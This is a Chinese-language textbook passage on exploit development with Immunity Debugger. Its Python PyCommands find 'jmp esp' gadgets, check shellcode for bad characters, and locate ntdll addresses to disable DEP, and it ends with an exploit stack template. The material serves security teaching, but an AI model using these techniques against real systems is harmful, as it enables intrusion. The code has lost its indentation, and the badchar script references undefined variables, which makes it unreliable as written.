


5.3 Exploit 开发
发现漏洞只是一个开始，在你完成利用程序之前，还有很长的一段路要走。不 过 Immunity 专门为了这项任务做了许多专门的设计，相信能帮你减少不少的痛苦。接下来我 们要开发一些 PyCommands 以加速 exploit 的开发。这些 PyCommands 要完成的功能包括， 找到特定的指令将执行权限转移到 shellcode，当编码 shellcode 的时候判断是否有需要过滤 的有害字符。我们还将用 PyCommand 命令!findantidep 绕过 DEP（软件执行保护）。
5.3.1 找出友好的利用指令
在获得 EIP 的控制权之后，你就要将执行权限转移到 shellcode。典型的方式就是，你用 一个寄存器指向你的 shellcode。你的工作就是在可执行的代码里或者在加载的模块里找到跳 转到寄存器的代码。 Immunity 提供的搜索接口使这项工作变得很简单，它将贯穿整个程序 寻找需要的代码。接下来就试验下。
# findinstruction.py
from immlib import *
def main(args):
imm = Debugger()
search_code = " ".join(args)
search_bytes = imm.Assemble( search_code )
search_results = imm.Search( search_bytes )
for hit in search_results:
# Retrieve the memory page where this hit exists
# and make sure it's executable
code_page = imm.getMemoryPagebyAddress( hit )
access = code_page.getAccess( human = True )
if "execute" in access.lower():
imm.log( "[*] Found: %s (0x%08x)" % ( search_code, hit ), address = hit )
return "[*] Finished searching for instructions, check the Log window."
我们先转化要搜索的代码（记得内存中可是没有汇编指令的 ），然后通过 Search()方法 在整个程序的内存空间中包含这个指令的地址。在返回的地址列表中，找到每个地址所属的 页。接着确认页面是可执行的。每找到一个符合上面条件的就打印到记录窗口。在调试器的 命令栏里执行如下格式的命令。
!findinstruction <instruction to search for>
脚本运行后输入以下测试参数，
!findinstruction jmp esp
输出将类似图 5-2

图 5-2 !findinstruction PyCommand 的输出
现在我们已经有了一个地址列表，这些地址都能使我们的 shellcode 运行起来（前提你 的 shellcode 地址放在 ESP 中）。每个利用程序都有些许差别，但我们现在已经有了一个能够 快输寻找指令地址的工具，很好很强大。
5.3.2 过滤有害字符
当你发送一段漏洞利用代码到目标系统，由于字符的关系，shellcode 也许没办法执行。 举个例子，如果我们从一个 strcpy()调用中发现了缓冲区溢出，我们的利用代码就不能包含 NULL 字 符(0x00).因 为 strcpy() 一 遇到 NULL 字 符就会停止拷贝数据。因此，就需要 将 shellcode 编码，在目标内存执行后再解码。然而，始终有各种原因导致 exploit 编写失败。比如程序中有多重的字符编码，或者被漏洞程序进行了各种意想不 到的处理，这下你就得哭了。
一般情况下，如果你获得了 EIP 的控制权限，然后 shellcode 抛出访问为例或者 crash 目 标，接着完成自己的伟大使命（反弹后门，转到另一个进程继续破坏，别的你能想得到的脏 活累活）。在这之前，最重要的事就是确认 shellcode 被准确的复制到内存。Immunity 使 的这项工作更容易。图 5-3 显示了溢出之后的堆栈。

Figure 5-3: 溢出之后 Immunity 栈窗口
如你所见，EIP 当前的值和 ESP 的一样。4 个字节的 0xCC 将使调试器简单的停止工作， 就像设置了在这里设置了断点（ 0xCC 和 INT3 的指令一样）。紧接着 4 个 INT3 指令，在 ESP+0x4 是 shellcode 的开始。我们将 shellcode 进行简单的 ASCII 编码，然后一个字节一个 字节的比较内存中的 shellcode 和我们发送 shellcode 有无差别，如果有一个字符不一样，说 明它没有通过软件的过滤。在之后的攻击总就必须将这个有害的字符加入 shellcode 编码中。
你能够从 CANVAS，Metasploit,或者你自己的制造的 shellcode。新建 badchar.py 文件， 输入以下代码。
#badchar.py
from immlib import *
def main(args):
imm = Debugger()
bad_char_found = False
# First argument is the address to begin our search
address = int(args[0],16)
# Shellcode to verify
shellcode = "<<COPY AND PASTE YOUR SHELLCODE HERE>>"
shellcode_length = len(shellcode)
debug_shellcode = imm.readMemory( address, shellcode_length ) debug_shellcode = debug_shellcode.encode("HEX")
imm.log("Address: 0x%08x" % address)
imm.log("Shellcode Length : %d" % length)
imm.log("Attack Shellcode: %s" % canvas_shellcode[:512])
imm.log("In Memory Shellcode: %s" % id_shellcode[:512])
# Begin a byte-by-byte comparison of the two shellcode buffers
count = 0
while count <= shellcode_length:
if debug_shellcode[count] != shellcode[count]:
imm.log("Bad Char Detected at offset %d" % count)
bad_char_found = True
break
count += 1
if bad_char_found:
imm.log("[***** | |] ")
imm.log("Bad character found: %s" % debug_shellcode[count])
imm.log("Bad character original: %s" % shellcode[count])
imm.log("[***** | |] ")
return "[*] !badchar finished, check Log window."
在这个脚本中，我们只是从 Immunity 库中调用了 readMemory()函数。剩下的脚本只是 简单的字符串比较。现在你需要将你的 shellcode 做 ASCII 编码(如果你有字节 0xEB 0x09， 编码后后你的字符串将看着像 EB09），将代码贴入脚本，并且如下运行：
!badchar <Address to Begin Search>
在我们前面的例子中，我们将从 ESP+0x4 地址 (0x00AEFD4C) 寻找，所以要在 PyCommand 执行如下命令:
!badchar 0x00AEFD4c
我们的脚本在发现危险字符串的时候将立刻发出警戒，由此大大减少花在调试 shellcode 崩溃时间。
5.3.3 绕过 windows 的 DEP
DEP 是一种在 windows(XP SP2, 2003, Vista)下实现的的安全保护机制，用来防止代码 在栈或者堆上执行。这能阻止非常多的漏洞利用代码运行，因为大多的 exploit 都会把 shellcode 放在堆栈上。然而有一个技巧能巧妙的绕过 DEP，利用微软未公布的 API 函数 NtSetInformationProcess()。它能够阻止进程的 DEP 保护，将程序的执行权限转移到 shellcode。 Immunity 调试器提供了一个 PyCommand 命令 findantidep.py 能够很容易找到 DEP 的地址。让我们看一看这个 very very nice 的函数。
NTSTATUS NtSetInformationProcess(
IN HANDLE hProcessHandle,
IN PROCESS_INFORMATION_CLASS ProcessInformationClass,
IN PVOID ProcessInformation,
IN ULONG ProcessInformationLength
);
为了使进程的 DEP 保护失效，需要将 NtSetInformationProcess()的 ProcessInformationClass 函数设置成 ProcessExecuteFlags (0x22)，将 ProcessInformation 参数 设置 MEM_EXECUTE_OPTION_ENABLE (0x2)。问题是在 shellcode 中调用这个函数将会出 现 NULL 字符。解决的方法是找到一个正常调用了 NtSetInformationProcess()的函数，再将 我们的 shellcode 拷贝到这个函数里。已经有一个已知的点就在 ntdll.dll 里。使用 Immunity 反汇编 ntdll.dll 找出这个地址。
7C91D3F8 . 3C 01 CMP AL,1
7C91D3FA . 6A 02 PUSH 2
7C91D3FC . 5E POP ESI
7C91D3FD . 0F84 B72A0200 JE ntdll.7C93FEBA
...
7C93FEBA > 8975 FC MOV DWORD PTR SS:[EBP-4],ESI
7C93FEBD .^E9 41D5FDFF JMP ntdll.7C91D403
...
7C91D403 > 837D FC 00 CMP DWORD PTR SS:[EBP-4],0
7C91D407 . 0F85 60890100 JNZ ntdll.7C935D6D
...
7C935D6D > 6A 04 PUSH 4
7C935D6F . 8D45 FC LEA EAX,DWORD PTR SS:[EBP-4]
7C935D72 . 50 PUSH EAX
7C935D73 . 6A 22 PUSH 22
7C935D75 . 6A FF PUSH -1
7C935D77 . E8 B188FDFF CALL ntdll.ZwSetInformationProcess
上面的代码就是调用 NtSetInformationProces 的必要过程。首先比较 AL 和 1，把 2 弹入 ESI，紧接着是条件跳转到 0x7C93FEBA。在这里将 ESI 拷贝进栈 EBP-4（记得 ESI 始终是 2）。接着非条件跳转到 7C91D403。在这里将确认堆栈 EBP-4 的值非零。非零则跳转 到 0x7C935D6D。从这里开始变得有趣，4 被第一个压入栈，EBP-4（始终是 2!）被加载进 EAX， 然后压入栈，接着 0x22 被压入，最后-1 被压入（-1 表示禁止当前进程的 DEP）。剩下调用 ZwSetInformationProcess（NtSetInformationProcess 的别称）。上面的代码完成的功能相当于 下面的函数调用：
NtSetInformationProcess( -1, 0x22, 0x2, 0x4 )
Perfect！这样进程的 DEP 就被取消了。在这之前有两项是必须注意的。第一 exploit 代 码得和地址 0x7C91D3F8 结合。第二执行到 0x7C91D3F8 之前，确保 AL 设置成 1.一旦满 足了这些条件，我们就能通过 JMP ESP 将控制权转移给我们的 shellcode。现在回顾三个必 须的地址：
一个地址将 AL 设置成 1 然后返回。 一个地址作为一连串反 DEP 代码的首地址。 一个地址将执行权限返回到我们 shellcode
在平常你需要手工的获取这些地址，不过 Immunity 提供了 findantidep.py 辅助我们完成 这项 。最后你将得到一个 exploit 字符串，将它与你自己的 exploit 结合，就能够使用了。接 下来看看 findantidep.py 代码，接下来将会使用它进行测试。
# findantidep.py
import immlib
import immutils
def tAddr(addr):
buf = immutils.int2str32_swapped(addr)
return "\\x%02x\\x%02x\\x%02x\\x%02x" % ( ord(buf[0]) ,
ord(buf[1]), ord(buf[2]), ord(buf[3]) )
DESC="""Find address to bypass software DEP"""
def main(args):
imm=immlib.Debugger()
addylist = []
mod = imm.getModule("ntdll.dll")
if not mod:
return "Error: Ntdll.dll not found!"
# Finding the First ADDRESS ret = imm.searchCommands("MOV AL,1\nRET")
if not ret:
return "Error: Sorry, the first addy cannot be found"
for a in ret:
addylist.append( "0x%08x: %s" % (a[0], a[2]) )
ret = imm.comboBox("Please, choose the First Address [sets AL to 1]", addylist)
firstaddy = int(ret[0:10], 16)
imm.Log("First Address: 0x%08x" % firstaddy, address = firstaddy)
# Finding the Second ADDRESS ret = imm.searchCommandsOnModule( mod.getBase(), "CMP AL,0x1\n PUSH 0x2\n
POP ESI\n" )
if not ret:
return "Error: Sorry, the second addy cannot be found"
secondaddy = ret[0][0]
imm.Log( "Second Address %x" % secondaddy , address= secondaddy )
# Finding the Third ADDRESS ret = imm.inputBox("Insert the Asm code to search for")
ret = imm.searchCommands(ret)
if not ret:
return "Error: Sorry, the third address cannot be found"
addylist = []
for a in ret:
addylist.append( "0x%08x: %s" % (a[0], a[2]) )
ret = imm.comboBox("Please, choose the Third return Address [jumps to shellcode]", addylist)
thirdaddy = int(ret[0:10], 16)
imm.Log( "Third Address: 0x%08x" % thirdaddy, thirdaddy )
imm.Log( 'stack = "%s\\xff\\xff\\xff\\xff%s\\xff\\xff\\xff\\xff" + "A" * 0x54 + "%s" + shellcode ' %\
( tAddr(firstaddy), tAddr(secondaddy), tAddr(thirdaddy) ) )
首先寻找指令"MOV AL,1\nRET",然后在地址列表中选择一个。接着在 ntdll.dll 里搜索反 DEP 代码。第三步寻找将执行权限转移给 shellcode 的代码，这个代码有用户输入，最后在 结果中挑一个。结果答应在 Log 窗口。图 5-4 到 5-6 就是整个流程。
Figure 5-4: 第一步，选择一个地址，并设置 AL 为 1
Figure 5-5:输入需要搜索的指令
Figure 5-6: 选择一个返回地址
最后看到的输出 i 结果如下:
stack = "\x75\x24\x01\x01\xff\xff\xff\xff\x56\x31\x91\x7c\xff\xff\xff\xff" + "A" * 0x54 + "\x75\x24\x01\x01" + shellcode
将生成的代码和你的 shellcdoe 组合之后，你就能将 exploit 移植到具有反 DEP 的系统。 现在只要用简单的 Python 脚本就能在很短的时间内开发出稳定的 exploit，再也不用花几个 小时苦苦寻找地址，最后花 30 秒试验。接下来学习如何用 immlib 绕过病毒的一般的反调试 机制。